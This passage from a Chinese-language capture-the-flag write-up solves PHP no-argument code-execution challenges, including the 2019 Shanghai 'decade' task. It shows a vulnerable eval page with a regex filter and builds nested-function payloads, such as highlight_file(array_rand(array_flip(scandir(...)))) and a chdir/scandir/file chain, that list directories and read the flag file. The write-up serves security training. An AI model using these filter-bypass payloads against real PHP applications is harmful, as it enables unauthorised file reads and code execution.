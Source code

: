 但是只使用键名不能直接读取`flag.php`,而`array_flip`可以反转/交换数组中所有的键名以及它们关联的键值

```php
<?php
$a=array(".","..",".git","flag.php","index.php");
$a=array_flip($a);
$random_keys=array_rand($a);
echo $random_keys;
?>
```

由此可以读取到`flag.php`

payload`highlight_file(array_rand(array_flip(scandir(current(localeconv())))));`

刷新多几次即可getflag`flag{f5ec0db8-27cb-47f7-8793-05b69a033364}`

---

我用`session_id(session_start())`一直跑不出来...我菜炸了

#### [2019上海市大学生网络安全大赛]decade

```php
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}
else {
        echo "No way!!!";
}
?>
```

`chr(ord(hebrevc(crypt(phpversion()))))`得到`.`

`scandir`扫描当前目录

`chdir(next())`返回父级目录

`scandir(chr(ord(hebrevc(crypt(phpversion(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))`扫描父级目录

`echo(next(file(end(scandir(chr(ord(hebrevc(crypt(phpversion(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))))));`getflag
